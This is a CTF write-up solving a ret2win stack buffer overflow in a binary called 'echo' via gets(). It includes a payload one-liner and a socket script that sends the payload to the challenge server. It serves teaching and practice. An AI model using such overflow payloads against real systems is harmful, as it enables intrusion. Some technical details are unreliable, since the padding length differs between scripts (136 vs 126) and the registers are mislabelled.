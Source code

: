 ```yaml
---
title: Echo
description: A writeup for the Echo challenge from Synk Fetch the Flag 2025 CTF. 
slug: synk-fetch-the-flag-2025-echo
date: 2025-03-30 00:00:00+0800
image: featured-image-FTF-25.png
categories:
    - CTF Writeup
    - Synk Fetch the Flag 2025
    - Binary Exploitation
tags:
    - CTF
    - Synk
    - Fetch the Flag 2025
comments: false
---
```


## Snapshot

![Challenge SnapShot](banner.png)

## Writeup
I Start by downloading the binary and decompiling using online decompiler [Binary Ninja](https://binary.ninja/). The Binary is a 64-bit ELF file. The decompiled code shows that the binary has a function called `echo` which takes a string as input and prints it to the console. The binary also has a function called `main` which calls the `echo` function with a hardcoded string.

![Decompiled from binary ninja](binary-ninja.png)

Notice that the `main` function calls the `gets` function which can be exploited to perform a buffer overflow attack. The `gets` function does not check the length of the input string, which means that we can overflow the buffer and overwrite the return address of the `main` function. This allows us to execute arbitrary code.

I will use the `gdb` debugger to analyze the binary and find the address of the `win`function. 

![GDB win function](gdb.png)

then I use the python command to create a pattern of 137 bytes and then run the binary with that input to test the buffer overflow.

![Try input string in python](python.png)

then I run the binary in `gdb` and check the stack to see if the return address has been overwritten.

![GDB check stack](gdb-check-stack.png)

Notice that the rbp (x64 stack pointer) points has been overwritten with the address. So I try input another character to see if the return address which on rip (x64 stack pointer) has been overwritten.

![GDB check stack](gdb-check-stack-2.png)

I found that the return address has been written to 0x4242424242. So I use python to create a payload that will overwrite the return address with the address of the `win` function which is `0x0000000000401216`.

```python
python -c 'print "A"*136 + "\x16\x12\x40\x00\x00\x00"' > payload.txt
```

Before running the binary, I make a fake `flag.txt` file to check if the binary is running the `win` function. The `win` function is supposed to read the flag from the `flag.txt` file and print it to the console.

```bash
echo "FTF{this_is_a_fake_flag}" > flag.txt
```

Then I run the binary with the payload and check the output.

```bash
./echo < payload.txt
```

![buffer-overflow-attack](buffer-overflow-attack.png)

Ta-da! I got the flag. The flag is `FTF{this_is_a_fake_flag}`.
The binary is vulnerable to buffer overflow attacks and can be exploited to execute arbitrary code. The `gets` function is the main vulnerability in this binary. It is important to always check the length of the input string when using functions like `gets` to prevent buffer overflow attacks.

Next, we create a script to exploit the binary on the server. The script will create a payload that will overwrite the return address with the address of the `win` function and then run the binary with the payload.

```python
import socket

def exploit(host, port, payload):
    """Sends the payload and receives the echoed text."""
    try:
        with socket.create_connection((host, port)) as s:
            # Receive the initial prompt
            prompt = s.recv(1024).decode('latin-1', errors='ignore') # Or utf-8
            print(f"Received prompt: {prompt}")

            # Send the payload
            s.sendall(payload)
            s.sendall(b"\n") # Send a newline character, very important.

            # Receive the echoed text (and any other responses)
            response = s.recv(4096).decode('latin-1', errors='ignore') # Or utf-8

            print(f"Received response: {response}")

    except ConnectionRefusedError:
        print(f"Connection refused to {host}:{port}")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    host = "challenge.ctf.games" # Replace with the actual host
    port = 31084 # Replace with the actual port number
    payload = b"A" * 126 + b"\x16\x12\x40\x00\x00\x00"  # Your payload

    exploit(host, port, payload)
```

and the flag will be printed on the console.
`flag{4f4293237e37d06d733772a087299f17}`

## Explanation Why It Works
The exploit works because the `gets` function does not check the length of the input string, which allows us to overflow the buffer and overwrite the return address of the `main` function. On the other hand, the compiler does not add any stack canaries or other protections to prevent buffer overflow attacks. This allows us to execute arbitrary code by overwriting the return address with the address of the `win` function.

### Buffer Overflow
First of all, let's understand what a buffer overflow is. A buffer overflow occurs when a program writes more data to a buffer than it can hold. This can lead to overwriting adjacent memory locations, including the return address of a function. When the function returns, it will jump to the overwritten address, which can lead to arbitrary code execution.

![Buffer Overflow Attack](buffer-overflow.png)

In x86_64 architecture, the stack grows downwards, meaning that the higher memory addresses are at the top of the stack and the lower memory addresses are at the bottom. When a function is called, a new stack frame is created, and the return address is pushed onto the stack. If we overflow the buffer, we can overwrite the return address with our own address. In diagram below, we can see how the stack looks like before and after the overflow but is x86 architecture.

![Before Overflow VS After Overflow](before-after.png)

X86_64 architecture is similar to x86 architecture but with some differences. In x86_64 architecture, the stack grows downwards, and the return address is stored in the `RIP` register. When the function returns, it jumps to the address stored in the `RIP` register. If we overflow the buffer and overwrite the return address with our own address, we can execute arbitrary code.

## References
- [The Stack](https://ctf101.org/binary-exploitation/what-is-the-stack/#:~:text=The%20esp%20%2F%20rsp%20register%20holds,at%20that%20location%20in%20memory.)